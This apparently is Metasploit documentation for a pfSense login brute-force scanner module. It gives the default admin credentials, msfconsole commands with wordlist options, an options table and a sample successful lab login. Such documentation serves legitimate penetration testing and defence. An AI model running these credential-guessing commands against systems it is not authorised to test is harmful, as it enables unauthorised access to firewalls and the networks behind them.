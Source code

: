 ## Vulnerable Application

This module attempts to bruteforce credentials for pfSense.

This module was specifically tested on version 2.7.2:

**2.7.2 Download**

https://atxfiles.netgate.com/mirror/downloads/

Note:

By default, pfSense comes with a built-in account named ```admin``` with the password being ```pfsense```.

## Verification Steps

1. Set up a pfSense VM using the steps above or target a real installation
1. Start `bundle exec ./msfconsole -q`
1. `use auxiliary/scanner/http/pfsense_login`
1. `set ssl true`
1. `set pass_file ...`
1. `set user_file ...`
1. `run`
1. or, using some example inline options: `run pass_file=data/wordlists/default_pass_for_services_unhash.txt user_file=data/wordlists/default_pass_for_services_unhash.txt STOP_ON_SUCCESS=true SSL=true rport=443`
1. Verify you get a login:
```
[+] 192.168.207.158:443 - Login Successful: admin:pfsense
```

## Options

### BLANK_PASSWORD

Set to `true` if an additional login attempt should be made with an empty password for every user.

### BRUTEFORCE_SPEED

How fast to bruteforce, from 0 to 5

### PASSWORD

A specific password to authenticate with

### PASS_FILE

File containing passwords, one per line

### STOP_ON_SUCCESS

Stop guessing when a credential works for a host

### THREADS

The number of concurrent threads (max one per host)

### USERPASS_FILE

File containing users and passwords separated by space, one pair per line

### USER_FILE

File containing usernames, one per line

### VERBOSE

Whether to print output for all attempts

## Scenarios
```
msf auxiliary(scanner/http/pfsense_login) > options

Module options (auxiliary/scanner/http/pfsense_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   ANONYMOUS_LOGIN   false            yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD          pfsense          no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.207.158  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             443              yes       The target port (TCP)
   SSL               true             no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   TARGETURI         /                yes       The base path to the pfSense application
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          admin            no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(scanner/http/pfsense_login) > run
[+] 192.168.207.158:443 - Login Successful: admin:pfsense
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
